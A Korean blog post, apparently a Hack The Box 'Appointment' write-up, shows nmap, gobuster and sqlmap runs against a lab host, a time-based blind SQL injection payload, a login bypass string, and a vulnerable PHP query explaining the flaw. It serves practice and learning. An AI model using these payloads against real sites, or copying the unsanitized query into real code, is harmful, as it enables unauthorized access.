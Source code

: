 ```yaml
---
title: HTB Appointment Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, Gobuster]
images:
    path: 
---
```

대상 서버에서 동작하는 서비스에 대해 먼저 알아보자. 

``` shell
 read-min 🇰   ~  nmap 10.129.198.242 -sV -sC
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 14:07 KST
Nmap scan report for 10.129.198.242
Host is up (0.26s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

gobuster를 위한 wordlist는 아래 경로에서 다운로드 했다.

> https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt

gobuster로 스캔한 결과는 아래와 같다. 유의미한 결과가 있지는 않은 것 같다.
``` bash
# gobuster dir -u http://10.129.198.242 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.198.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4896]
/images               (Status: 301) [Size: 317] [--> http://10.129.198.242/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.198.242/js/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.198.242/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.198.242/fonts/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.198.242/vendor/]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

그렇다면 80 port에 직접 브라우저로 접근 시 아래와 같이 로그인 화면이 나온다. SQL Injection을 통해 로그인하라는 내용 같다.
![](../assets/image_post/20240204150016.png)

바로 간단한 구문을 테스트해도 되지만, 다양한 툴을 접해보는 것도 목적이기에 sqlmap 툴을 사용해봤다.

``` bash
# sqlmap -u "http://10.129.198.242/" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:22 /2024-02-04/

[06:03:22] [INFO] testing connection to the target URL
[06:03:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:03:23] [INFO] testing if the target URL content is stable
[06:03:23] [INFO] target URL content is stable
[06:03:23] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'

[*] ending @ 06:03:23 /2024-02-04/
```

Critical의 내용과 같이 옵션을 추가해서 다시 진행하였다. 아래와 같이 취약점이 존재한다는 결과에 대해 확인이 가능하다.

``` shell
# sqlmap -u "http://10.129.198.242/" --batch --forms --crawl=2
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:50 /2024-02-04/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[06:03:50] [INFO] starting crawler for target URL 'http://10.129.198.242/'
[06:03:50] [INFO] searching for links with depth 1
[06:03:51] [INFO] searching for links with depth 2
please enter number of threads? [Enter for 1 (current)] 1
[06:03:51] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] Y
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] N
[1/1] Form:
POST http://10.129.198.242/
POST data: username=&password=&remember-me=on

...skip...

[06:04:45] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[06:04:45] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pMzq' AND (SELECT 6086 FROM (SELECT(SLEEP(5)))HBmG) AND 'UXcN'='UXcN&password=JaMC&remember-me=on
---
```

취약점 존재 여부에 대해선 확인하였으니 아래와 같이 로그인을 수행할 수 있다.

> username: admin   / pw: 1' or''=' 

로그인 시 아래와 같이 정답 flag가 노출된다.

![](../assets/image_post/20240204151501.png)

---

문제에 대한 풀이는 끝났지만, SQL Injection에 대해 추가적으로 알아보고자 아래에 추가적으로 정리한 내용이다. 우선 공격에 사용된 코드를 통해 서버 측에서는 받아온 입력 값을 그대로 db 쿼리에 사용하고 있음을 알 수가 있다. 대략적인 php 코드는 아래와 같을 것이다.

``` php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
``` 

이러한 상태에서 위 공격 구문을 대입하면 아래와 같은 형태로, `''=''`은 true가 되므로 password는 항상 참의 값이 된다.

``` php
"SELECT * FROM users WHERE username='$username' AND password='1' or''=''"
```

SQL Injection은 실제 탐지한 경험이 없다보니, 많이 낯선 영역 같다. 이 쪽을 좀 더 많이 해봐야겠다.

![](../assets/image_post/20240204151558.png)
